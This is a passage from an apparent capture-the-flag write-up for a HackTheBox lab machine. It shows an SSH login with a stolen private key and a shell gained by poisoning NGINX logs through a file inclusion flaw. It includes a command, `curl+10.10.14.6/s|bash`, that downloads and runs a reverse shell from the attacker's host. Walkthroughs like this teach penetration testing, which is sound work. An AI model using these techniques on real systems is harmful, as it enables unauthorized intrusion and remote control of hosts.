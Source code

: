 It fails here because the pemissions on the private key are too open (664, which means everyone on my system can read it). I’ll fix that, and then it works:

```

oxdf@hacky$ chmod 600 ~/keys/trick-michael
oxdf@hacky$ ssh -i ~/keys/trick-michael michael@trick.htb
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ 

```

### Shell Via Log Poisoning

Using the LFI in the marketing page, I can also read the NGINX access logs:

[![image-20221027102405426](https://0xdfimages.gitlab.io/img/image-20221027102405426.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221027102405426.png)

The user agent is logged there, so I’ll send something with a webshell in it:

![image-20221027103012501](https://0xdfimages.gitlab.io/img/image-20221027103012501.png)

I’ll include the string 0xdf to find within the potentially large log. Now I’ll include the log again, and this time there’s execution:

[![image-20221027103154643](https://0xdfimages.gitlab.io/img/image-20221027103154643.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221027103154643.png)

To get a shell, I’ll use `&cmd=curl+10.10.14.6/s|bash` , and host a simple [Bash Reverse Shell](https://www.youtube.com/watch?v=OjkVep2EIlw) with a Python webserver.

### Shell Via SSH Key Read

With the file include as michael, and `id_rsa` is a default name for a private key, there’s no reason I can’t just read that SSH key, skipping the LFI remote code execution:

![image-20221015071233762](https://0xdfimages.gitlab.io/img/image-20221015071233762.png)

## Shell as root

### Enumeration

#### sudo

The first thing I always check when getting on a Linux host is what programs this user can run as another user with `sudo`:
